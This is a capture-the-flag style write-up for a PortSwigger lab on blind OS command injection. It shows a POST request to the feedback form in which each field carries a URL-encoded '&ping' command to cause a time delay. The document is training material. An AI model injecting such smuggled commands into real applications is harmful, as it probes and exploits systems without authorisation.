

# Blind OS command injection with time delays

**Lab Url**: [https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

## Objective

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

## Solution

The feedback form at `/feedback/submit` accepts `name`, `email`, `subject`, and `message` parameters. One of these is passed unsanitised into a shell command, but the output is not returned in the response — a blind injection.

We can still confirm the vulnerability by injecting a command that causes a measurable delay, such as `ping`.

### Step 1: Inject a time-delay command

Inject a command separator followed by `ping -c 10 127.0.0.1` to cause a 10-second delay:

```bash
POST /feedback/submit
...
csrf=TOKEN&name=%26ping+-c+10+127.0.0.1%26&email=%26ping+-c+10+127.0.0.1%26&subject=%26ping+-c+10+127.0.0.1%26&message=%26ping+-c+100+127.0.0.1%26
```

`%26` is the URL-encoded form of `&`, which acts as a command separator. The server executes `ping -c 10 127.0.0.1`, causing a 10-second delay before the response is returned. This confirms the blind command injection.


